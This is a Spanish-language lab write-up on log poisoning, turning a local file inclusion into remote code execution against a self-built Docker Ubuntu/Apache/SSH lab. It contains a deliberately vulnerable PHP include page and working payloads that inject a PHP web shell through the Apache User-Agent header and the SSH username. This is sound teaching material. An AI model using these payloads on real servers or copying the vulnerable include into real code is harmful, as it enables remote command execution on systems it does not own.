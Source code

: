 ```yaml
---
title: "[Lab] Log Poisoning (LFI -> RCE)"
date: 2023-12-25
categories: [OWASPTop10]
tags: [owasptop10, hacking, apache, ssh]
---
```



# Log Poisoning (LFI -> RCE)
    

## Instalación

```bash
docker pull ubuntu:latest
docker run -dit -p 80:80 -p 22:22 --name rfi ubuntu
docker exec -it rfi bash
apt update
apt install apache2 ssh php nano -y
service apache2 start
service ssh start
cd /var/www/html
```

Dentro del directorio /html, crear un archivo php con el siguiente contenido:

```bash
<?php
	include($_GET['file']);
?>
```

Una vez hecho eso, se procede a probar el funcionamiento:

![Untitled](../assets/OWASP-TOP-10/Log Poisoning (LFI - RCE)/Untitled.png)

## Explotación

### Log Poisoning (Logs de Apache: /var/log/apache2/access.log)

Este archivo sirve para guardar todos los logs de peticiones que se hagan al servidor web

![Untitled](../assets/OWASP-TOP-10/Log Poisoning (LFI - RCE)/Untitled 1.png)

Si se revisan los permisos de los archivos de este directorio, se puede ver que como propietario está root y como grupo está “adm”, este último es un grupo en el cual los usuarios que estén en él, tienen acceso a ver logs del sistema.

![Untitled](../assets/OWASP-TOP-10/Log Poisoning (LFI - RCE)/Untitled 2.png)

Para ver el funcionamiento de este envenenamiento, se cambiarán los permisos de estos archivos para que el usuario www-data tenga acceso a ellos:

```bash
chown www-data:www-data -R var/log/apache2/
```

![Untitled](../assets/OWASP-TOP-10/Log Poisoning (LFI - RCE)/Untitled 3.png)

La debilidad está en el campo “User-Agent” ya que este campo se puede cambiar y si la máquina interpreta código php, es posible inyectar comandos:

```bash
curl -s -X GET "http://localhost/?file=loquesea" 
-H "User-Agent: hola"
```

![Untitled](../assets/OWASP-TOP-10/Log Poisoning (LFI - RCE)/Untitled 4.png)

No siempre la función “system()” estará habilitada, una forma de verificar esto es con la función phpinfo(), esto mostrará información de la configuración de Apache2:

```bash
curl -s -X GET "http://localhost/?file=loquesea" 
-H "User-Agent: <?php phpinfo(); ?>"
```

![Untitled](../assets/OWASP-TOP-10/Log Poisoning (LFI - RCE)/Untitled 5.png)

Es posible que los desarrolladores desactiven ciertas funcionalidades como el uso de la función system() u otras funcionalidades que permitan el uso de comandos.

Ya que no hay funcionalidades deshabilitadas, se puede aprovechar de estos para ejecutar un código php el cual permita controlar los comandos desde el URL:

[ALERTA]: Hay que tener cuidado con el comando ejecutado ya que puede contaminar los logs y dejarlos “inutilizables” haciendo que la ejecución de comandos ya no funcione, esto puede provocarlo, por ejemplo, una mal posición de las comillas.

```bash
curl -s -X GET "http://localhost/?file=loquesea" 
-H "User-Agent: <?php system(\$_GET['cmd']); ?>"

# Ejemplo de comando incorrecto que puede dejar 
# inutilizable los logs para ejecución de comandos
curl -s -X GET "http://localhost/?file=loquesea" 
-H 'User-Agent: <?php system(\$_GET["cmd"]); ?>'
```

![Untitled](../assets/OWASP-TOP-10/Log Poisoning (LFI - RCE)/Untitled 6.png)

### Log Poisoning (Logs de SSH: /var/log/btmp)

Normalmente, el archivo de logs de ssh se llama “auth.log” pero en este caso es “btmp”, ambos tienen la funcionalidad de mostrar el historial de intentos de inicio de sesión por ssh.

![Untitled](../assets/OWASP-TOP-10/Log Poisoning (LFI - RCE)/Untitled 7.png)

El campo vulnerable es el usuario con el cual se inicia sesión de forma que se podría cambiar este usuario por un código php que permita la ejecución de comandos.

```bash
ssh '<?php system($_GET["cmd"]); ?>'@<máquinaVíctima>
```

Luego, para que ver la funcionalidad del código, se proporcionará permisos de lectura a otros sobre el archivo “btmp”.

```bash
chmod o+r btmp
```

Cabe recalcar que una vez que se le asigne algún permiso al archivo “btmp”, este no almacenará más logs por lo que el log con el código debe mandarse antes de poner los permisos.

![Untitled](../assets/OWASP-TOP-10/Log Poisoning (LFI - RCE)/Untitled 8.png)

*Los inicios de sesión exitosos, son almacenados en /var/log/wtmp y estos pueden ser mostrados con el comando “last” y los inicios de sesión erroneos con “lastb”.*
